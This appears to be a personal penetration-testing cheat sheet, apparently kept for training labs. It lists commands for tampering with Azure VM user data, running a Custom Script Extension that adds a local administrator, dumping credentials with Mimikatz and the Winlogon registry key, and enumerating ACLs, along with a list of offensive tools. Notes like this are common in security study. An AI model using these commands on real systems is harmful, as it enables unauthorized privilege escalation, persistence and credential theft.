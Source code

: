 **AZURE**
- **Check UserData**
```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text";[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```
- **Modify UserData**
```
## It is also possible to modify user data with permissions "Microsoft.Compute/virtualMachines/write" on the target VM. Any automation or scheduled task reading commands from user data can be abused!

$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken = (Get-AzAccessToken).Token
$Url = "https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01"
$body = @(
@{
location = "Germany West Central"
properties = @{
userData = "$data"
}
}
) | ConvertTo-Json -Depth 4

$headers = @{
Authorization = "Bearer $accessToken"
}

## Execute Rest API Call

$Results = Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType 'application/json'
```
- **Check VM Extensions**
```
Get-AzVMExtension -ResourceGroupName Research -VMName infradminsrv
```
- **Set VM Extensions**
```
## Following permissions are required to create a custom script extension and read the output: "Microsoft.Compute/virtualMachines/extensions/write" and "Microsoft.Compute/virtualMachines/extensions/read"

Set-AzVMExtension -ResourceGroupName Research -VMName infradminsrv -ExtensionName ExecCmd -Location germanywestcentral -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users student87 Stud87Password@123 /add /Y; net localgroup administrators student87 /add /Y"}'
```


**Random**
```
Get-AzRoleAssignment | select scope,objectid,DisplayName,objecttype,RoleDefinitionName,RoleDefinitionId | ft

xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share

script -qc /bin/bash /dev/null
```
**Python3 VENV**
```
python3 -m venv /path/of/venv

source /path/to/venv/bin/activate

deactivate (To exit)
```
**Hide Error in PowerShell**
```
$ErrorActionPreference= 'silentlycontinue'
```
**Filtering Powershell objects**
```
Get-UserProperty -Properties logoncount | Where logoncount -ne 0

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} 
```
**Creds**
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword"
Invoke-Mimikatz -DumpCreds/-DumpCerts 
```
**Service Ticket Combos - https://adsecurity.org/?p=2011**

**DC Time Sync**
```
proxychains net time set -S 172.16.3.5
```

**Expand Property**
```
(get-azvm | select -ExpandProperty networkprofile).NetworkInterfaces.id 
```

**SnapLabs Firefox Copy-Paste Support**
```
about:config -> dom.events.testing.asyncClipboard
```

**Kali-Additional-Tools**
Tools which I clone in a new Kali image
```
cd /opt;for i in \`ls\`;do cd $i;pwd;sudo git pull;cd -;done
ADTools/
binaryninja
ghidra_9.1.2_PUBLIC
Ghostpack-CompiledBinaries
GitDorker
GitTools
impacket
Mobile-Security-Framework-MobSF
ngrok
privilege-escalation-awesome-scripts-suite
rengine
SprayingToolkit
starkiller
ysoserial
XSStrike
kerbrute
```
